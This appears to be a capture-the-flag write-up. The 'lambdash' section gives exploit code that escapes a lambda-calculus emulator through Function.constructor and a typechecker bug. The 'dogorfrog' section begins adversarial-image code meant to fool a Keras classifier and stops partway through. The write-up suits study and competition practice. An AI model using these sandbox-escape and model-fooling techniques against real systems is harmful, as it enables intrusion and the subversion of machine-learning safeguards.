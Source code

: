 
## lambdash

Fun one.

Basically, first step was finding that there was a local file inclusion, so going to package.json gave me a list of important files.

From there, it was just staring at the code for a while, until I found how to use the limited functionality present in the emulator to create a string via doing Function.toString.name.constructor.fromCharCode(), and just using the addition present in the emulator to concat the chars together.  Then it was just running Function.constructor("return hidden.getFlag('that string that was in the source')")(null) through the emulator.  The only issue that remained was getting it to typecheck, but the typechecker bug was so generously pointed out to us that al that was really necessary was making a function a recursive type, so that i could override the type of that function to an object with the exact properties we watned such that all of the functions/properties typechecked.  Ran it, it worked, gucci gang.

```
alias m = int -> unit -> int in
alias b = {`constructor m} in
alias t = {`toString {`name {`constructor {`fromCharCode (int -> int)}}}} in
alias q = rec r. (unit -> r) in
(lambda x:(int -> int). lambda y:m.y (x 114 + x 101 + x 116 + x 117 + x 114 + x 110 + x 32 + x 104 + x 105 + x 100 + x 100 + x 101 + x 110 + x 46 + x 103 + x 101 + x 116 + x 70 + x 108 + x 97 + x 103 + x 40 + x 34 + x 105 + x 102 + x 32 + x 121 + x 111 + x 117 + x 32 + x 99 + x 97 + x 110 + x 32 + x 103 + x 101 + x 116 + x 32 + x 116 + x 104 + x 105 + x 115 + x 32 + x 121 + x 111 + x 117 + x 32 + x 100 + x 101 + x 115 + x 101 + x 114 + x 118 + x 101 + x 32 + x 116 + x 104 + x 101 + x 32 + x 102 + x 108 + x 97 + x 103 + x 32 + x 45 + x 62 + x 32 + x 97 + x 98 + x 99 + x 100 + x 49 + x 50 + x 51 + x 52 + x 33 + x 64 + x 35 + x 36 + x 37 + x 94 + x 38 + x 42 + x 40 + x 41 + x 39 + x 34 + x 41) ())


(((unfold ((lambda x:(unit -> q). (LAMBDA r. x ()) [t])
(fix f x:unit returns q. fold as q (lambda a:unit. f x)))) ())#`toString#`name#`constructor#`fromCharCode)

(((unfold ((lambda x:(unit -> q). (LAMBDA r. x ()) [b])
(fix f x:unit returns q. fold as q (lambda a:unit. f x)))) ())#`constructor)
```

## dogorfrog

I just took code off of a medium post that shows up as the first result when you google search "tricking machine learning" and slightly modified it to fit this problem via changing the source of the model and the image dimensions.

```python
# Taken from some medium post
import numpy as np
from keras.preprocessing import image
from keras.applications import inception_v3
from keras.applications.mobilenet import decode_predictions, preprocess_input
from keras.models import load_model
from keras import backend as K
from PIL import Image

# Load pre-trained image recognition model
model = load_model("model.h5")

# Grab a reference to the first and last layer of the neural net
model_input_layer = model.layers[0].input
model_output_layer = model.layers[-1].output

# Choose an ImageNet object to fake
```